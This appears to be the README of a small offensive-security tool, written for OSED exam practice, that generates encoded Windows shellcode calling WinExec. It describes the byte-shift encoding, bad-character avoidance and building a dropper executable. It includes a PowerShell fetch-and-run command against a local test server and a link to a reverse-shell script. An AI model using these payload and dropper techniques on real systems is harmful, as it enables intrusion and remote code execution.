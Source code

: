 # Kimagure

![image](https://user-images.githubusercontent.com/26436276/122970022-5830a600-d35b-11eb-9a14-8c19c484a158.png)

This is a very quick and dirty tool to generate fairly small Windows shellcode that calls WinExec 
with a given command, with a focus on readability and ease of debugging. Included is a generator 
script and the template assembly code that it is based on. 

The word "kimagure" means "fickle" or "moody", which is how I kept feeling about certain shellcode 
generators that tried obfuscation tricks that were frustrating to debug, when all I needed was a 
fairly small payload to test with the exploit I just finished writing. It was created for use on 
certain challenges for the OSED, and is by no means intended to be used for professional engagements. 

## Usage

Basic usage is 

    python3 kimagure.py "command to run" <key>

The key is optional (default is 0x11), and can range from 1 to 129. Since we are just encoding some 
ASCII here, the last printable byte is 0x7E, so we have a full 0x81 worth of space to play with. All 
we're really doing is just finding a way to execute a command on the command line.

Make sure you customize the BADCHARS list at the top of the script to your needs. The script will 
highlight any bad characters in the code it outputs. If you do see bad chars while using your key, 
simply increment until you don't see any bad chars in your payload. TODO: A more programmatic way to do 
this, this code is a combination of multiple scripts...

The template code is optimized to exclude many common bad chars, but exploits can be tricky and it 
might need some modification. Feel free to change up any code with functionally equivalent pieces of 
code, hopefully you don't run into too many issues!

## How It Works

The algorithm is pretty straight forward:

* Pad the input string with \x00 until it's divisible by 4
* Increment every byte of the input string by the given key
* Process the string backwards because we are pushing onto the stack
* Split string up into groups of 4 bytes
* Generate push instructions to push each chunk onto the stack
* Place within the shellcode template

The code generated sets up a call to WinExec, and pushes our encoded string onto the stack. Then it 
loops over the string and subtracts our key value from each byte before calling WinExec. This is a 
very simple way to avoid bad chars and provide basic obfuscation.

In addition to generating a shellcode buffer for use in exploit scripts, it generates a raw shellcode 
file (out.bin), as well as a very barebones tiny PE file for testing (out.exe). See template.asm and 
pe32template.asm for more details on how these work.

In our specific use case here, we don't have to worry too much about bypassing things outside of Windows' 
own security mechanisms. This means you can focus on understanding the basic concepts in this early stage, 
instead of falling into a rabbit hole of obscure issues that are beyond the scope of your learning goal. 
This things are important to learn for sure, but sometimes this process can add unnecessary complexity when 
learning a fundamental concept, leading to confusion later on.

## Verify it's working

You can run a simple test like so:

On Linux

    $ python3 kimagure.py "powershell"

On Windows

    C:\> out.exe

If you are testing the .exe and get the 0xc0000005 error, just run it again. Sometimes newer versions of 
Windows have a weird issue with this PE template. A more stable PE can be built automatically once this 
generates source code as well.

See the next section for information on tweaking the EXE.

## Testing template.asm

This code simply runs the command 

    powershell IEX (New-Object Net.WebClient).DownloadString('http://127.0.0.1:8080/test.ps1')

You will need nasm and gcc!

Build:

    $ nasm -f win32 template.asm -o ki.template.o; ld -mi386pe -o ki.template.exe template.o

Run Server:

    $ cd server/
    $ python3 -m http.server 8080

On victim

    C:\Users\user\Documents\>out.exe
    Well Hello There :3

test.ps1 just prints something and verifies that it in fact works. If you need a working powershell reverse 
shell, use [this.](https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1)

### Modifying the template 

If you are trying to make a dropper and the pre-generated exe is causing too many issues (like 0xc0000005 errors), 
you can just run `ndisasm -b 32 out.bin` after you've run the script, then take the push instructions starting at 
0x0000008A and paste them into the template.asm file where it says CUT HERE.

You will also want to make sure that the correct key is being used for the two sub instructions after the push 
instructions. The template uses 0x11 for the key.

Then just build according the build instructions listed above.

The shellcode to set up the WinExec call in the template was inspired by this code: https://idafchev.github.io/exploit/2017/09/26/writing_windows_shellcode.html

The PE template came from previous research done here: https://n0.lol/a/pemangle.html

## Q & A

Q: Why WinExec, why not X/Y/Z API?

A: It works, the string is short, and it's ultimately easier to debug.

Q: Why not generate shellcode with one of the programs like in the course?

A: Because compilers and assemblers emit different code depending on different factors, and can add complexity 
where there was none before. By specifying our bytes directly, we have full control over the program. 
It's also easier to debug your bytes when you know exactly what they are. 

## Future Stuff

* Generate assembly code listing as well for debug or other use cases
* Use this to generate the PE for testing.
* Add a padding option for nop sleds or whatever else
